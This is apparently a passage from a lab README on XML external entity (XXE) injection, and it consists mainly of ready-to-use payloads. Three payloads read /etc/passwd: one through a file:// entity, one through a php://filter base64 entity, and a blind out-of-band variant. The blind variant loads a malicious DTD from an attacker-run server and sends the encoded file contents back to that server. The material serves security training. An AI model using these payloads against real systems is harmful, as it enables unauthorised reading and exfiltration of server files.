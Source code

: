 ### Example Payload

#### Leak /etc/passwd using file protocol

Payload:

```xml
<!DOCTYPE data [
<!ELEMENT foo ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<root>
    <data>&file;</data>
</root>
```

#### Leak /etc/passwd using php filters

Payload:

```xml
<!DOCTYPE data [
<!ELEMENT foo ANY>
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<root>
    <data>&file;</data>
</root>
```

#### Leak /etc/passwd using external DTD

This technique is useful for blind XML injection. Firstly, you need to run `dtd.py` and use the payload below to fetch a malicious DTD file from your server. Make sure to replace `<your docker Host IP>` with the actual IP of your Docker host.

Payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<your docker Host IP>:5000/malicious.dtd"> %xxe;]>
<root>
    <data>&file;</data>
</root>
```

Your server will respond with the following DTD file, and the target server will execute it. As a result, it will send the content of `%file` (which contains `/etc/passwd`) to the attacker's server.

Malicious DTD file:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://<your docker Host IP>:5000/?file=%file;'>">
%eval;
%exfiltrate;
```

Your server will output the following, which contains the base64 representation of /etc/passwd:

![Server Response](https://i.imgur.com/x7UZlkk.png)
